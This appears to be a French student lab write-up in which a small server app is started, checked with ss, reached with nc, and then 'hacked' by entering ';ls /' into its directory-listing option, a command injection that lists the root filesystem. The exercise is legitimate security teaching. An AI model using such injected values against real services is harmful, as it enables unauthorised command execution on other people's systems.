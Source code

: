 ````bash
ad@prx:~/TP_LEO$ ./efrei_server
ad@prx:~/TP_LEO$ ./efrei_server
Server started. Listening on ('192.168.202.4', 8888)...
````

🌞 **Prouvez que l'application écoute sur l'IP que vous avez spécifiée**

````bash
ad@prx:~$ sudo ss -ltnp | grep 192
LISTEN 0      100    192.168.202.4:8888      0.0.0.0:*    users:(("main.bin",pid=5540,fd=6))
````

## 2. Prêts

🌞 **Se connecter à l'application depuis votre PC**

````bash
ad@prx:~$ nc 192.168.202.4 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) :
````

## 3. Hackez

🌞 **Euh bah... hackez l'application !**

````bash
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) : 4
Exécuter la commande ls vers le dossier : ;ls /

efrei_server
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
swapfile
sys
tmp
````
